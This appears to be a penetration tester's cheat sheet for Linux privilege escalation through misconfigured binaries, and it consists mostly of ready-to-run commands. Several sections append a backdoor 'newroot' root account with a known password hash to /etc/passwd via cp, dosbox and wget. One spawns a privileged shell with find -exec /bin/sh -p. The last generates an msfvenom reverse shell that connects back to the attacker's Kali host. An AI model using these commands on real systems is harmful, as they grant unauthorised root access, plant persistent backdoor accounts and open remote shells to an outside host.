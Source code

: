 #### cp

Target:
```bash - target
cat /etc/passwd > passwd.orig
```

Kali:
```bash - kali
openssl passwd password
```

Target:
```bash - target
echo "newroot:D8rrIm3n0b6Sg:0:0:root:/root:/bin/bash" >> passwd.orig
```

```bash - target
cp passwd.orig /etc/passwd
```

```bash - target
su newroot
```

```bash - target
password
```

#### dosbox
First, you need to ssh into the target with -X flag:
```bash - kali
ssh -X <USER>@$TARGET 
```

```bash - target
dosbox
```


---

If the above method does not work, try:

[[0._Port Forwarding Examples#VNC to DosBox]]


---

On the target machine:
```bash - target
echo 'newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash' > fkpasswd
```

Now in the DOS box:
```
mount d /
```

```
D:
```

```
type D:\HOME\<USER>\FKPASSWD >> D:\ETC\PASSWD
```

Back in target:
```bash - target
su newroot
```

```bash - target
password
```

#### find
```bash - target
/usr/bin/find . -exec /bin/sh -p \; -quit
```

#### wget

```bash - kali
openssl passwd password
```

```bash - kali
echo "newroot:D8rrIm3n0b6Sg:0:0:root:/root:/bin/bash" >> passwd
```

```bash - target
wget http://$KALI/passwd -O /etc/passwd
```

```bash - target
su newroot
```

```bash - target
password
```

#### elf file


```bash - kali
strings uploadtosecure
```

   
```bash - kali
msfvenom -p linux/x86/shell_reverse_tcp LHOST=$KALI LPORT=80 -f elf > scp.elf
```

![[1._rlwrap]]

Transfer to victim

```bash - kali
mv scp.elf scp
```

```bash - kali
chmod 777 scp
```

```bash - kali
./uploadtosecure
```


